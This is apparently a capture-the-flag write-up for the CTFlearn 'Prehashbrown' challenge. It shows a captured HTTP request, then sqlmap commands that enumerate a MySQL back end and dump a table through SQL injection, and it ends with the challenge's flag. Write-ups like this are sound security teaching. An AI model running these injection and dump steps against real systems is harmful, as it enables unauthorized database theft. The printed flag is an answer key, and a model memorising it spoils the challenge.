## Prehashbrown
The main idea finding the flag is get flag SQL Injection using Burpsuite and exploiting Database.

#### Step-1:
I visited the given link: [Hashbrown Database](http://138.197.193.132:5000/login)

<img src="Register.png">

#### Step-2:

<img src="Search.png">

This search bar is SQL Injection Vulnerable. So, using Burpsuite, I capture the request header and saved as `header.txt`.

```bash
POST / HTTP/1.1
Host: 138.197.193.132:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.197.193.132:5000/
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Cookie: session=.eJwtzrERwzAIAMBdVLtAWCDwMjkQcElrx1Uuu6fJT_Cf9qgzr2c73uedW3u8oh0NVdNShiyl3MWRcAhG4FRmNQvupDjJuIYB7VyuFXuklJUvAy5z8M6046o1WIbmkgpP7xCGKg49xmKPKQTsgrIIQqlnjWxbu688_xmY7fsDJpIwUQ.XgoN7g.8npc5r-RdNRbhXE0vKTNozaJMPM
Connection: close
Upgrade-Insecure-Requests: 1

search=flag
```
#### Step-3:
So, I started to exploit the Database using SQLMap.
`sqlmap -r header.txt --dbs --batch`

Output:
```sql
[time][INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0.12
[time][INFO] fetching database names
available databases [2]:
[*] information schema
[*] prehashbrown
```

#### Step-4:
So, I tried to enumerate the `prehashbrown` table.
```sql
sqlmap -r header.txt -D prehashbrown --table --batch
```

Output:
```sql
...
[time] [INFO] fetching tables for database:
Database: prehashbrown
[2 tables]
+------------+
| user	     |
| hashbrown  |
+------------+
```

#### Step-5:
The flag is within the `hashbrown` table and I dumped all information from the table.

```sql
sqlmap -r header.txt -D prehashbrown -T hashbrown --column --batch --dump
```

#### Step-6:
Finally the flag becomes: 
`CTFlearn{h4shbr0wns_0n_th3_s3rv3r_@!#$<>[]}`
